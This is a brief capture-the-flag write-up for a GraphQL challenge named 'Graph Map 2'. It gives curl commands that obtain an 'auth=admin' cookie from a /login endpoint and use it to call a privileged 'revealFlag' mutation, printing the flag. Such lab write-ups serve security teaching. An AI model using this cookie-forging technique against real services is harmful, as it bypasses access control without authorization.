

# Graph Map 2
## Presentation
Going to url:port will automatically redirect to url:port/graphql. So you will see this:

## Solving
Seeing "Unauthorized" message shoould make you think there is a /login endpoint
- `curl -X POST url:port/login -v` will show the cookie `auth=admin`
- Note how the image shows the `revealFlag` mutation query
- `curl -X POST url:port/graphql -H "Content-Type: application/x-www-form-urlencoded" --cookie "auth=admin" -d 'query=mutation { revealFlag }'` returns `{"data":{"revealFlag":"RS{F0RGE_THIS_C00KIE_ALI3NS!}"}}`
